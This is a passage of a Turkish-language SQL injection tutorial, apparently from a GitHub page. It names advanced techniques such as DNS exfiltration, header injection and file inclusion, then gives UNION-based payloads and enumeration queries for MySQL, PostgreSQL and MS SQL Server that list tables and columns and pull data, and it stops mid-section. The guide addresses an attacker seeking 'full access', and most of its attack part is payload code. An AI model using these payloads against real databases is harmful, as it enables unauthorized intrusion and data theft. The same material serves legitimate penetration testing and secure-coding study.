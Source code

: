 7️⃣ Gelişmiş Teknikler
DNS Exfiltration: Veritabanı adı DNS istekleri üzerinden sızdırılabilir. Yani, SQL enjeksiyonu ile bir veritabanı adı, zararlı bir DNS isteği aracılığıyla dışarıya gönderilebilir.
HTTP Headers: HTTP başlıkları üzerinden SQL enjeksiyonu yapılabilir. X-Forwarded-For, User-Agent gibi başlıklar SQL Injection için kullanılabilir.
File Inclusion: Eğer dosya dahil etme (LFI/RFI) açığı varsa, veritabanı adı, include edilen dosyalarda konfigürasyon bilgileri şeklinde yer alabilir.

Sonuç:
SQL enjeksiyonu ile veritabanı adı elde etmek, doğru teknikler ve araçlarla yapılabilen bir işlemdir. İleri düzey teknikler, kör enjeksiyon (blind SQLi), hata tabanlı enjeksiyon (error-based SQLi), zaman tabanlı enjeksiyon (time-based SQLi), ve veritabanı metadata sorgulamaları ile veritabanı hakkında derinlemesine bilgi elde edebilirsin. Ayrıca bu süreci otomatikleştirmek için SQLmap ve Burp Suite gibi araçlar oldukça kullanışlıdır.

Tam Erişim
1. Veritabanındaki Tabloları Listeleme
İlk olarak, belirli bir veritabanındaki tüm tabloları öğrenmek için aşağıdaki SQL sorgularını kullanabilirsin.
MySQL / MariaDB:
Veritabanındaki tüm tabloları listelemek için:
sql
```sql
UNION SELECT null, null, null, group_concat(table_name) FROM information_schema.tables WHERE table_schema = 'your_database_name';
```
'your_database_name' kısmını keşfettiğin veritabanı adıyla değiştirmelisin.
PostgreSQL:
PostgreSQL’de tablo isimlerini listelemek için:
sql
```sql
SELECT table_name FROM information_schema.tables WHERE table_schema = 'public';
```
MS SQL Server:
MS SQL Server’da tüm tabloları listelemek için:
sql
```sql
SELECT name FROM sys.tables WHERE type = 'U';
```
2. Tablo Yapılarını (Sütunlar) Öğrenme
Veritabanındaki tüm tabloları öğrendikten sonra, her tablonun sütunlarını görmek için aşağıdaki SQL sorgularını kullanabilirsin.
MySQL / MariaDB:
sql
```sql
UNION SELECT null, null, null, group_concat(column_name) FROM information_schema.columns WHERE table_name = 'your_table_name' AND table_schema = 'your_database_name';
```
PostgreSQL:
PostgreSQL’de tablonun sütunlarını almak için:
sql
```sql
SELECT column_name FROM information_schema.columns WHERE table_name = 'your_table_name';
```
MS SQL Server:
MS SQL Server’da tablonun sütunlarını görmek için:
sql
```sql
SELECT column_name FROM information_schema.columns WHERE table_name = 'your_table_name';
```
3. Veritabanındaki Verileri Çekme
Bir tablonun yapılarını öğrendikten sonra, o tablodan veri çekmeye başlayabilirsin. Veritabanındaki verileri almak için aşağıdaki sorguları kullanabilirsin.
MySQL / MariaDB:
sql
```sql
UNION SELECT null, null, null, column_name FROM your_table_name;
```